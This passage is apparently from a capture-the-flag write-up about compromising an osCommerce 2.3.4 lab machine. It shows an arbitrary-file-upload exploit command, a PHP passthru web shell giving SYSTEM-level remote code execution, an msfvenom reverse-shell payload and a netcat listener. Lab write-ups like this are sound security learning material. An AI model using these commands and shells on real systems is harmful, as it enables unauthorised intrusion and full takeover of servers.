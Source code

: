 #### Back to the /install/ page we create a new user: 

{{< figure src="/blueprint/oscommerce_install2.jpg" title="" >}}

After the process is done, we see this page:

{{< figure src="/blueprint/oscommerce_install3.jpg" title="" >}}

We now have completed the process and created an authenticated user. We can try to upload something now with the Arbitrary File Upload exploit.
We could try a simple php script that works with native PHP:

{{< figure src="/blueprint/php_passthru.jpg" title="" >}}

Explanation from PHP.net:

>    exec() is for calling a system command, and perhaps dealing with the output yourself.
>    system() is for executing a system command and immediately displaying the output - presumably text.
>    passthru() is for executing a system command which you wish the raw return from - presumably something binary.

So basically this will let us do RCE through our browser adress bar. Pretty cool!

{{< figure src="/blueprint/shell.jpg" title="" >}}

```bash
python 43191.py -u http://10.10.248.2:8080/oscommerce-2.3.4/ --auth=admin:admin -f shell.php
```

The command is successful. Lets try to browse to the provided link and execute commands!

{{< figure src="/blueprint/browser_rce.jpg" title="" >}}


So we now have managed to upload a file AND we can also perform Remote Code Execution on the system. Because we are a system user, we also have the HIGHEST privileges on the local system. Awesome! =)

From Microsoft.com:
*“The account NT AUTHORITY\System which is a Local System account.. It is a powerful account that has unrestricted access to all local system resources. It is a member of the Windows Administrators group on the local computer, and is therefore a member of the SQL Server sysadmin fixed server role.”*

This immediately gives me an idea; Lets create an msfvenom payload for Windows with a reverse shell and upload it just like we did with the shell.php file.

{{< figure src="/blueprint/msfvenom.jpg" title="" >}}

So you can see here that all it took was 2 simple commands with the right parameters.
All we need to do next is to catch the reverse shell connection with a netcat listener.

We start our listener to prepare for our newly uploaded shell:

```bash
nc -lvnp 9999
```

And then browse to http://10.10.248.2:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=shell

{{< figure src="/blueprint/netcat.jpg" title="" >}}
